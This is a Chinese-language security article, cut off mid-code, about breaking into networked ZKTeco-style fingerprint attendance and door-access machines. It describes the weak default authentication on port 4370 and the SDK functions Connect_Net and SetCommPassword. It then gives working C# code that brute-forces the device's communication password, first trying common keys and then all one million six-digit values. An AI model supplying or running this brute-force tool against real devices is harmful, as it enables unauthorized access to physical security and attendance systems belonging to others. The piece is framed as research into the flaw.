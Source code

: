 介绍里说明几乎支持所有类型的指纹考勤机，指纹门禁及所有同品牌类型的指纹产品类型，如果算连接网络的设备全中国估计会有6位数以上的设备终端。

网站上有一篇“户外物理设备入侵之：入侵并“调教”中控指纹语音考勤系统(打卡机)”,作者只是写了个大概,并没有对程序进行过分析,有些概念是错误的,反正正好我也在研究，重新写一些东西纠正一下好了。

关于此类设备的认证方面网上都有资料可循，不过有些人说是明文，三次握手部分看不到有此类的数据包，所以应该是加密算法做哈希，尤其说过此密码估计要设备终端和PC终端相同才行。（设备默认开启4370端口，6位数字组合为暴力枚举必破）

![2014060220160246182.png](http://drops.javaweb.org/uploads/images/c8ed71428e8639059382b0a8221f0e44e249b504.jpg)

![2014060220170692817.png](http://drops.javaweb.org/uploads/images/2bd3afedf73a8074670f27b037d0a996c9609bcf.jpg)

所以这里设备爆破手法1.搞清密码处理流程用数据包骗过去。2,直接扣二次开发SDK或者找开发资料把函数扣出来。

索性SDK做得简单易懂，我看一天左右就可以上手编写破解密码的程序部分了。

![2014060220183670975.jpg](http://drops.javaweb.org/uploads/images/3b6d74f458f026e246974db1a24ddcf84dc390cb.jpg)  

指纹考勤联机部分的流程SDK文档如下：

![2014060220192293626.jpg](http://drops.javaweb.org/uploads/images/d1926c26b1a998b4b3765da9f46104cc8f1f65a2.jpg)    

远程网络认证部分关键函数有两个：

1.Connect_Net 

VARIANT_BOOL Connect_Net( [in] BSTR IPAdd, [in] long Portl)

布尔类型的函数

IPAdd,(远程设备IP地址)和Port(设备认证端口)

2.SetCommPassword

VARIANT_BOOL SetCommPassword( [in] long CommKey)

CommKey为密码（小声说一句，可能是为了兼容或者开发方便，认证方式实在很弱）。

整个连接过程不过很短的几句代码，加个循环就能成为破解密码程序:

```
private void CrackerConnect() {
    zkemkeeper.CZKEMClass axCZKEM1 = new zkemkeeper.CZKEMClass();
    int ifcommnetpass = 0;
    for (j = 0; j < 24; j++) {
        key = comkeys[j];
        pwd = axCZKEM1.SetCommPassword(key);
        if (pwd == true) {
            bIsConnected = axCZKEM1.Connect_Net(txtIP.Text, Convert.ToInt32(txtPort.Text));
            if (bIsConnected == true) {
                btnConnect.BeginInvoke(new System.EventHandler(SetbtnConnectTextSec));
                lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSec), comkeystr[j]);
                iMachineNumber = 1;//In fact,when you are using the tcp/ip communication,this parameter will be ignored,that is any integer will all right.Here we use 1. 
                axCZKEM1.RegEvent(iMachineNumber, 65535);//Here you can register the realtime events that you want to be triggered(the parameters 65535 means registering all) 
                ifcommnetpass = 1;
                break;
            } else {
                lblState.BeginInvoke(new System.EventHandler(SetlblStateTextSecfail), comkeystr[j]);
            }
        }
    }
    if (ifcommnetpass == 0) {
        for (j = 0; j < 1000000; j++) {
            key = keys[j];
            pwd = axCZKEM1.SetCommPassword(key);
            if (pwd == true) {
                bIsConnected = axCZKEM1.Connect_Net(txtIP.Text, Convert.ToInt32(txtPort.Text));
                if (bIsConnected == true) {
```